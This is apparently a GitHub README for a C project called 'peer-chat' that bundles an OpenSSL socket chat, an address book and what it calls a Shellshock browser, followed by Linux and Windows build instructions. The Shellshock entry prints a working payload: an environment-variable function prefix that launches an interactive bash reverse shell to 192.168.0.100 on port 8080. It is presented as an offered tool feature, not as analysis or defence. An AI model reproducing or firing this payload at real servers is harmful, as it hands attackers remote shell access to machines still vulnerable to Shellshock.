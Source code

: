 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)
    most Bug free
    
* Addressbook functionality (Windows/Linux)
    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)
    the Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"

# building
On Linux: gcc main.c -o sslchat -lssl -lcrypto -pthread -std=gnu99

On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99
